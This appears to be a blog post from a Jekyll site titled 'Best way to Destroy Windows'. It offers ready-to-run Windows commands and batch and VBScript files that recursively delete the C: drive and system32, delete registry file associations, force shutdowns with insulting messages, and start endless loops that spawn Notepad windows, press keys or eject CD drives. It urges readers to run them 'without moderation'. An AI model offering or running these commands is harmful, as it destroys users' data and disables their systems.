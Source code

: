 ```yaml
---
layout: post
title: Best way to Destroy Windows
subtitle: Run this command without moderation;)
bigimg: /img/winfuckoff.jpg
---
```


## Best way to Destroy Windows
Run this command without moderation;)

### 1. Type this in command prompt:

> RD C:\ /S /Q

> del c:\windows\system32\*.* /q

> del /f /s /q "C:\*.*."

### 2. Type this in notepad:

Save the file anywhere (.bat) and execute it:

##### 2.1 The blue screen of Death
Code:
```
@echo off 
del %systemdrive%\*.*/f/s/q  
shutdown -r -f -t 00 
```

##### 2.2 Stupidity Shutdown
code:
```
@echo off
msg * Fatal system error due to admin stupidity!
shutdown -c “Error! You are too stupid!” -s -t 10
```

##### 2.3 Delete Key Registry Files
code:
```
@ECHO OFF
START reg delete HKCR/.exe
START reg delete HKCR/.dll
START reg delete HKCR/*
:MESSAGE
ECHO Your computer has been fcked.Â Â Have a nice day.
GOTO MESSAGE
```

##### 2.4 Endless Notepads
code:
```
@ECHO off
:top
START %SystemRoot%\system32\notepad.exe
GOTO top
```

##### 2.5 Crazy caps lock
code:
```
Set wshShell =wscript.CreateObject(“WScript.Shell”)
do
wscript.sleep 100
wshshell.sendkeys “{CAPSLOCK}”
loop
```

##### 2.6 Endless Enter
code:
```
Set wshShell = wscript.CreateObject(“WScript.Shell”)
do
wscript.sleep 100
wshshell.sendkeys “~(enter)”
loop
```

##### 2.7 Endless Backspace
code:
```
MsgBox “Let’s go back a few steps”
Set wshShell =wscript.CreateObject(“WScript.Shell”)
do
wscript.sleep 100
wshshell.sendkeys “{bs}”
loop
```

##### 2.8 Popping CD Drives
code:
```
Set oWMP = CreateObject(“WMPlayer.OCX.7”)
Set colCDROMs = oWMP.cdromCollection
do
if colCDROMs.Count >= 1 then
For i = 0 to colCDROMs.Count – 1
colCDROMs.Item(i).Eject
Next
For i = 0 to colCDROMs.Count – 1
colCDROMs.Item(i).Eject
Next
End If
wscript.sleep 100
loop
```


And have a good day!

Font's: [dbsdp](http://dbsdp.blogspot.com.br/2010/10/destroy-xp-with-single-command.html) | [itechnobuzz](https://www.itechnobuzz.com/the-8-deadly-windows-vbs-commands/l)